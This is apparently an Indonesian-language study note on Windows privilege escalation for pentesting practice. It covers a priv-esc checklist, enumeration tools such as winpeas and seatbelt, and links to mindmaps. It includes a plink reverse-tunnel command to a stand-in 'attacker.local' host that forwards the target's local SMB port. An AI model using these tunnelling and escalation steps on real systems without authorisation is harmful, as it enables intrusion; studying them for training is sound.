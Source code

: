 ```
https://github.com/gtworek/Priv2Admin

## Port Fowarding
Terkadang ada exploit yang mudah ditemukan namun program yang ingin kita exploit itu berjalan di local system (hanya bisa diakses local). Dalam hal ini kita perlu melakukan **port forwarding**. 

Dalam kasus ini kita perlu mem-forward port pada attacker machine ke internal port yang ada di windows

kita bisa menggunakan tool `plink.exe`
```
.\plink.exe root@attacker.local -R 445:127.0.0.1:445

```
Perintah diatas berfungsi untuk port forwarding dari 445 attacker machine ke port 445 target machine

## getsystem (Named pipes & token duplication)

## Priv Esc Strategy
1. Cek user kita saat ini dengan perintah `whoami` dan juga groups `net user <username>`
2. Jalankan winpeas dengan argument `fast` , `searchfast`, dan `cmd`
3. Jalankan tool `seatbelt.exe` dan script lainnya diatas
4. Jika script/exploit kita gagal dan bingung mau ngapain lagi, coba baca manual command di link berikut. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
5. Deep Dive, jangan menyerah, baca semua hasil dari enumeration
6. Jika winpeas atau tools lainnya menemukan sesuatu, jangan lupa dicatat
7. Buat checklist untuk priv esc
8. Lihat file di direktori umum seperi `Desktop`, `Documents`, `C:\`, `C:\Users`, `C:\Program Files` dan lain-lain
9. Jika menemukan file yang menarik, cari informasinya lebih lanjut
10. Coba sesuatu yang tidak sulit seperti registry,exploit,services dan lain-lain
11. Lihat process yang dijalankan oleh admin, lihat versinya dan cari exploitnya
12. Cek internal port, mungkin ada sesuatu yang menarik, kita bisa forward portnya  menggunakan `plink.exe` agar bisa diakses dari attacker machine
13. Jika masih belum bisa nemu priv esc ke admin, coba baca lagi hasil enumeration dan coba pahami lagi mungkin ada yang menarik, cek nama yang mungkin tidak familiar di windows, jika masih belum bisa juga, coba kernel exploits
14. Don't panic

## Another Reference
![Windows Priv Esc Mindmap](https://github.com/C0nd4/OSCP-Priv-Esc/blob/main/images/Windows%20Privilege%20Escalation.png?raw=true)


![xhxBrofessor](https://github.com/hxhBrofessor/PrivEsc-MindMap/raw/main/windows-mindMap.JPG)